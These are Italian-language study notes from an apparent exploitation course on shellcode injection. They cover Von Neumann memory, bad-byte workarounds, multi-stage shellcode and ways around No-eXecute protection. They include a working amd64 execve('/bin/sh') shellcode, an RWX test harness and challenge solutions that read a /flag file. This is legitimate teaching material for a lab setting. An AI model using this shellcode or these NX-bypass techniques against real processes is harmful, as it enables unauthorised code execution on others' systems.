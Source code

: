 +++
title = "Mod 4: Shellcode Injection"
+++

## Appunti lezioni

{{< attachments />}}

### Intro

Come abbiamo visto negli scorsi moduli i processori moderni seguono l'architettura Von Neumann.
L'architettura Harvard separa la memoria eseguibile dalla memoria in lettura/scrittura (__TODO:__ cercare perchè/cenni storici).
Perchè facciamo notare questa differenza? Perchè in un arch Von Neumann è possibile fare _shellcode injection_, ovvero redirezionare l'esecuzione di un processo in modo arbitrario, inserendo come input al programma le istruzioni binarie da eseguire.

### Come si arriva a poter usare una shellcode injection

Si tratta quasi sempre di bug introdotti dal programmatore (esempio fatto a lezione, trattare un buffer di char al posto di un puntatore di funzione. Vabbè sto esempio fa un po' schifo, visto che il sistema di tipi dovrebbe mettersi in mezzo a compile time).

### Shellcode?

Un pezzo di software, in codice macchina, che fai eseguire al processo che stai attaccando.
Chiamato "shell"code perchè normalmente lo scopo è avere una shell sulla macchina compromessa.
Lo shellcode per avere una shell su amd64 linux è il seguente:

```
mov rax, 59             # this is the syscall number of execve
lea rdi, [rip+binsh]    # points the first argument of execve at the /bin/sh string below
mov rsi, 0              # this makes the second argument, argv, NULL
mov rdx, 0              # this makes the third argument, envp, NULL
syscall                 # this triggers the system call
binsh:                  # a label marking where the /bin/sh string is
.string "/bin/sh"
```

Ovviamente, può essere usato per fare qualsiasi cosa, non solo aprire shell.

### Fast prototyping

* Compilare shellcode in ELF:

```
.global _start
_start:
.intel_syntax noprefix
<inserire shellcode>

$ gcc -N -nostdlib -static shellcode.s -o shellcode-elf
```

* va poi estratta la parte interessante per usarlo nell'exploit (aka `.text`)
* Creare un programma C che prende shellcode in input, per simulare la situazione trovata nel processo da esploitare

```c
page = mmap(0x1337000, 0x1000, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE|MAP_ANON, 0, 0);
read(0, page, 0x1000);
((void(*)())page)();
```

* ovviamente puoi sempre usare strace e i debugger
  * si può assemblare lasciando i simboli di debug (non ci sono ripercussioni su `.text`)
  * spesso è utile inserire `int3` direttamente nel shellcode
* qemu per archittetture diverse da amd64

### Problemi tipicamente riscontrati

* Bisogna stare attenti alle dimensioni dei dati spostati. Gli assembler ti permettono di specificarlo se necessario.
* Spesso ti ritrovi a non poter usare alcuni byte, a seconda del mezzo con cui comunichi con il process (ie `\n`). Ecco alcune possibili soluzioni:
  * riscrivere lo shellcode in per fargli avere la stessa semantica
  ie: `mov rax, 10 (48c7c00a000000)` si può riscrivere come `mov rax, 9; inc rax (48C7C00900000048FFC0)`
    * ci sono tool automatici, ma ogni tanto si rompono e diventa difficile capire cosa stia succedendo (il dudo sconsiglia di usarli)
  * salvare il codice (con i byte vietati modificati) come data, ripristinare i byte necessari e poi eseguirlo
  * fare uno shellcode multi-stage, dove il primo stage esegue semplicemente una read verso `[rip]`, e il resto dello shellcode viene iniettato dopo
* shellcode può essere modificato in modo strano prima di essere eseguito, qui la soluzione deve essere ad-hoc

### Protezione: No-eXecute

Il sistema operativo riesce a mitigare __quasi__ tutti i casi in cui lo shellcode ci permette di exploitare roba.
In pratica le pagine il kernel decide quali pagine di memoria hanno i permessi di essere eseguiti, e normalmente non assegna permessi di scrittura e esecuzione alla stessa pagina.
Per poter eseguire lo shellcode, le soluzioni possono essere le seguenti:

* usare altri metodi per usare la syscall `mprotect` e rendere eseguibile la pagina scrivibile
* accedere ad una pagina che ha già i permessi `wx`, queste si trovano tipicamente nello spazio di memoria dei compilatori JIT, dato che hanno bisogno di compilare ed eseguire on the fly
  * JIT spraying (__non ho ben capito cosa sia__, ma non credo sia nello scope di pwncollege)
* molti sistemi embedded non implementano NX

#### Approfondimento sull'implementazione di NX

[Il sistema è gestito a livello di pagine di memoria](https://wiki.osdev.org/Paging)
Niente, in realtà non ho capito
Forse mi aiuta capire come funziona [pae](https://it.wikipedia.org/wiki/Physical_Address_Extension)

## Altre risorse

* <https://www.cs.fsu.edu/~langley/CNT5605/2017-Summer/assembly-example/assembly.html>
* <https://filippo.io/linux-syscall-table/>

## Challenges

### 1

```assembly
        mov rax, 2
        lea rcx, [rip+.after_open]
        lea rdi, [rip+.flag_filename]
        xor rsi, rsi
        syscall
        .after_open:

        mov rdi, rax

        mov rax, 0
        lea rcx, [rip+.after_read]
        lea rsi, [rip+.buffer]
        mov rdx, 0x99
        syscall
        .after_read:

        mov rax, 1
        lea rcx, [rip+.after_write]
        mov rdi, 1
        lea rsi, [rip+.buffer]
        mov rdx, 0x99
        syscall
        .after_write:

        ret

        .flag_filename:
        .string "/flag"
        .buffer:
        .space 0x100
```

### 2

Uso `space` (visto prima) per inizializzare 0x90 (`nop`) per 0x800 byte

### 3

Ez, basta lavorare un po' con gli indirizzi e fare sottrazioni dove serve

### 4

```
        .macro .my_deref reg, lowreg, label
        call .push_rip
        pop \reg
        add \lowreg, \label - . + 1
        .endm
```

che chiama

```
        .push_rip:
        pop r11
        push r11
        push r11
        ret
```
